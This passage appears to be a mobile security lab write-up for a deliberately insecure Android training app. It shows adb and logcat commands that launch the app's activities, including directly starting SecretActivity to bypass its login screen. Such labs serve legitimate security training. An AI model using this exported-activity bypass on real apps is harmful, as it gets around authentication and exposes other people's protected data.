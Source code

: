 Use `adb` to launch the found activities.

In a separate terminal run `logcat`/`pidcat`

```bash
pidcat.py com.elearnsecurity.insecureactivities
# or
adb shell logcat
```

```bash
adb shell am start -n com.elearnsecurity.insecureactivities/.LoginActivity
```

Bypass application's authentication.

```bash
adb shell am start -n com.elearnsecurity.insecureactivities/.SecretActivity
```

![SecretActivity](.gitbook/assets/image-20240111151848890.png)
